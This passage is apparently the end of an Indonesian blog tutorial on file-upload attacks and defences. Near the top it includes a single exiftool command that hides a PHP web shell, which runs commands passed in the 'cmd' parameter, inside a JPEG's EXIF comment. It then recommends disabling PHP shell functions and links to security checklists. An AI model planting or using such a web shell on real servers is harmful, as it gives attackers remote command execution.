     exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Dengan EXIF ini code php tersebut akan dieksekusi

**Solusi File Upload**

Semua tujuan dari file upload itu semua adalah shell execution atau dalam artian lain melakukan eksekusi perintah pada operating sistem tersebut, sebenernya sesederhana disable eksekusi shell pada PHP atau engine web lainnya pada php bisa menggunakan [https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/](https://www.cyberciti.biz/faq/linux-unix-apache-lighttpd-phpini-disable-functions/)
> # Saya merasa kurang dan masih kena hacking :(

Banyak alternatif nya di internet, kalo saran saya sendiri bisa menggunakan web security checklist untuk developer, bisa cek disini
[**Web developer security checklist**
*Dari data pada website zone-h.org dijelaskan hampir satu hari hacker mampu melakukan deface sebanyak 5 sampai 20…*medium.com](https://medium.com/@yahya.kimochi/web-developer-security-checklist-920ac4421589)

## Referensi

[https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/)
[**List of file signatures - Wikipedia**
*Many file formats are not intended to be read as text. If such a file is accidentally viewed as a text file, its…*en.wikipedia.org](https://en.wikipedia.org/wiki/List_of_file_signatures)

[http://exif.regex.info/exif.cgi](http://exif.regex.info/exif.cgi)
[**Why HTTPS Matters | Web Fundamentals | Google Developers**
*You should always protect all of your websites with HTTPS, even if they don't handle sensitive communications. HTTPS…*developers.google.com](https://developers.google.com/web/fundamentals/security/encrypt-in-transit/why-https)
